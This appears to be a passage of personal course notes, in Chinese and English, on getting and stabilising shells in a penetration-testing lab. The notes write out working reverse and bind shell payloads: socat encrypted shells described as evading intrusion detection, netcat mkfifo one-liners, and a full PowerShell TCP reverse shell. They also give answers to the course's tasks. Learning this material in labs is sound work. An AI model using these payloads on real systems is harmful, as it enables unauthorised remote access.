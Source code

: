 				--> let the 非互動式 shell  be 完全互動的 bash shell
					e.g > sudo rlwrap nc -lvnp 443
					    > socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
					    
					    then 
					    > sudo socat TCP-L:<port> FILE:`tty`,raw,echo=0
					    > can use ssh now
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~    
		--> Socat Encrypted Shells	
			--> 能夠繞過IDS
			--> TCP => OPENSSL
			--> 產生一個憑證才能使用加密的 shell
				--> openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
				--> 2048 位元 RSA 金鑰以及匹配的憑證文件，自簽名，有效期不到一年
			--> cat shell.key shell.crt > shell.pem
			
			--> Reverse Shells :
				--> kali : socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
					--> verify=0 告訴連接不必費心去驗證我們的證書是否已由公認的權威機構正確簽署
				--> target : socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash

			--> Bind Shells :
				--> 憑證也必須與偵聽器一起使用，因此需要複製 PEM 檔案
				--> target : socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
				--> kali : socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 
			
			--> task : 
				--> tty 技術設定 OPENSSL-LISTENER 的語法是什麼？使用連接埠 53 和名為“encrypt.pem”的 PEM 文件	
					--> socat OPENSSL-LISTENER:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0  
					
				--> 使用什麼語法來連接回此偵聽器
					--> socat OPENSSL:10.10.10.5:53 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
					
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> Common Shell Payloads
			--> Windows 版本:  nc.exe
				--> /usr/share/windows-resources/binaries
				--> netcat-traditional -e : 讓您在連線時執行進程。例如，作為聽眾
					--> nc -lvnp <PORT> -e /bin/bash 綁定 shell
				--> nc <LOCAL-IP> <PORT> -e /bin/bash將導致目標上出現反向 shell
			
			--> linux :
				--> 綁定 shell 建立偵聽器	
					--> mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
				
				--> 發送 netcat 反向 shel
					--> mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
					
			--> Windows :
				--> Powershell 反向 shell 
					--> 複製到 cmd.exe shell : powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
				--> kali : sudo nc -lvnp <port>
				